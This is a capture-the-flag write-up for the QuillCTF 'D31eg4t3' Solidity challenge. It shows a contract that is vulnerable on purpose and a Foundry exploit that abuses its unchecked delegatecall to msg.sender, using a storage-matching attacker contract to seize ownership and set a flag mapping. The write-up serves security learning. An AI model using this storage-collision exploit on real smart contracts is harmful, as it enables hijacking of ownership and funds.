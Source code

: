 ```yaml
---
title: QuillCTF-5.D31eg4t3
date: 2024-01-22 17:00:44
tags:
categories: 
    - QuillCTF
---
```

Objective

1. Become the owner of the contract.
2. Make canYouHackMe mapping to true for your own address.

## Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract D31eg4t3{


    uint a = 12345;
    uint8 b = 32;
    string private d; 
    uint32 private c; 
    string private mot;
    address public owner;
    mapping (address => bool) public canYouHackMe;

    modifier onlyOwner{
        require(false, "Not a Owner");
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function hackMe(bytes calldata bites) public returns(bool, bytes memory) {
        (bool r, bytes memory msge) = address(msg.sender).delegatecall(bites);
        return (r, msge);
    }


    function hacked() public onlyOwner{
        canYouHackMe[msg.sender] = true;
    }
}
```

## Observation

After read the whole contract , i found delegatecall function . so i thnk the key to solve the question is the `delegatecall`.

we can easy use `delegatecall` to change the variale.

## Attack

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import "forge-std/Test.sol";
import "src/D31eg4t3.sol";

contract Attack{
    uint a = 12345;
    uint8 b = 32;
    string private d; 
    uint32 private c; 
    string private mot;
    address public owner;
    mapping (address => bool) public canYouHackMe;

    function attack(address delegateAddress, address attackerAddress) public{
        D31eg4t3 delegateContract = D31eg4t3(delegateAddress);
        delegateContract.hackMe(abi.encodeWithSignature("pwn(address)", attackerAddress));
    }

    function pwn(address attackerAddress) public {
        owner = attackerAddress;
        canYouHackMe[attackerAddress] = true;
    }
}

contract testCon is Test {    
    D31eg4t3 _contract;
    address owner;
    address attacker;

    function setUp() public {
        owner = vm.addr(1);
        attacker = vm.addr(2);
        vm.startPrank(owner);
        _contract = new D31eg4t3();
        vm.stopPrank();
    }

    function testExploit() public {
        vm.startPrank(attacker);
        Attack att = new Attack();
        att.attack(address(_contract), attacker);
        vm.stopPrank();
        assertEq(_contract.owner(), attacker);
        assert(_contract.canYouHackMe(attacker) == true);
    }
}
```